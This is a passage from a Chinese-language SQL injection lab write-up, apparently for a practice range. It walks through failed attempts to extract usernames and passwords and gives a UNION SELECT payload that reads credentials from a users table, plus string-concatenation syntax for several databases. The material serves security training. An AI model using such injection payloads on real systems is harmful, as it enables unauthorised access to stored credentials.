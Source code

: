 ### 2.7.2. **测试靶场**

这里经过测试是两列，至于如何测试出是两列，这里就不在复述了，跟着流程下来，这里应该也会测试了。

#### 2.7.2.1. **测试失败**

这里通过介绍是有username与password，并且是从users中读取出来，我们进行测试。

通过测试，发现我们之前输入的payload的无法把账号和密码带出。重新看介绍，是需要我们将账号密码合并带出。

```
payload：' union select username,password from users--
```

![图片 23](assets/%E5%9B%BE%E7%89%87%2023.png) 

#### 2.7.2.2. **再次失败**

我们将需要带出的值合并放入第一位，进行测试。这里经过测试，依旧是错误的，我们就需要考虑换一个位置。

不同数据库字符串的连接方法：

```
Oracle: 'foo'||'bar'

SQL Server: 'foo'+'bar'

Mysql: 'foo' 'bar'（空格） CONCAT('foo','bar')

PostgreSQL: 'foo'||'bar'
```
